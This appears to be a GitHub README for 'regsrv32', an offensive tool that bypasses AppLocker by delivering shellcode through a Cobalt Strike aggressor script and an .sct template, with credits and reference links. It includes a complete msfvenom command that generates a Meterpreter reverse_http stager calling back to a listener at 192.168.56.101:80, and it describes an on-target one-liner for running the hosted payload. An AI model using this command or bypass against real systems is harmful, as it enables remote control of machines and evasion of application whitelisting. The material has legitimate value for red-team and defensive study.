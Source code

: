 # regsrv32

regsrv32 applocker bypass - arbitrary shellcode payload delivery via cobalt strike 

files:

* regsrv32.cna: a cobalt strike aggressor script.  give it some shellcode and it'll host the file and supply you with a one-liner to execute on-target
* regsrv32.sct: a template that the aggressor script stuffs the shellcode into before hosting it for download via the one-liner

example shellcode to use (point it at metasploit, armitage or cobalt strike listeners):

msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_http LHOST=192.168.56.101 LPORT=80 EXITFUNC=thread -f raw > stager.bin

credits:

* yuri popov: for the dynamic wrapper x dll
* casey smith aka subtee: for the jscript that uses dynamic wrapper x dll, and a means to use it without registration

major reference sources:

* http://www.cyberforum.ru/post5932812.html
* https://gist.githubusercontent.com/subTee/ca6ab8ec75ec38c213da580cd0de30fe/raw/dbb7a6c3cb65fc2fcbb4bcfedc8395b258f9658a/calc.sct
* https://gist.github.com/subTee/353ba45c4f16646d10cdfd79cf9d88c9
* https://gist.github.com/iron9light/1191402
* http://sleep.dashnine.org/manual/
* https://www.cobaltstrike.com/aggressor-script/index.html
